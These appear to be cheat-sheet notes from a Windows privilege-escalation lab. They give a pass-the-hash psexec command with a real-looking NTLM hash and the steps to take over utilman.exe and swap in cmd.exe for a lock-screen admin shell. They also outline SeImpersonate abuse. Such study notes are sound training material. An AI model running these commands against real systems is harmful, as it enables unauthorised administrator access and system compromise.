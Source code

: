 
# Pass the hash to gain admin access
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.210.117

# Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

# Privilege: SeTakeOwnership
# User can take ownership of any file
# Example, own utilman.exe
C:\> takeown /f C:\Windows\System32\Utilman.exe

# Update your privilege level
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

# Now replace the binary
copy cmd.exe utilman.exe

# Now when we click on 'Ease of Access' on lock screen, we will get cmd with admin access

# Private: SeImpersonate / SeAssignPrimaryToken
# These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

# To elevate privileges using such accounts, an attacker needs the following: 
# 1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 
# 2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.
